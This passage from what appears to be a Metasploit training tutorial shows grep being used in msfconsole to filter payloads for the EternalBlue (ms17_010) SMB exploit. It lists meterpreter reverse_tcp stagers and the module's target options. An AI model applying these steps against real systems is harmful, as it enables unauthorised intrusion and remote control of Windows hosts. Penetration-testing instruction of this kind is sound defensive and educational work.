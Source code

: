```shell
```

This gives us a total of `14` results. Now we can add another `grep` command after the first one and search for `reverse_tcp`.

  MSF - Searching for Specific Payload

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
   
   
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep -c meterpreter grep reverse_tcp show payloads

[*] 3
```

With the help of `grep`, we reduced the list of payloads we wanted down to fewer. Of course, the `grep` command can be used for all other commands. All we need to know is what we are looking for.

---

## Selecting Payloads

Same as with the module, we need the index number of the entry we would like to use. To set the payload for the currently selected module, we use `set payload <no.>` only after selecting an Exploit module to begin with.

#### MSF - Select Payload

  MSF - Select Payload

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs



msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

```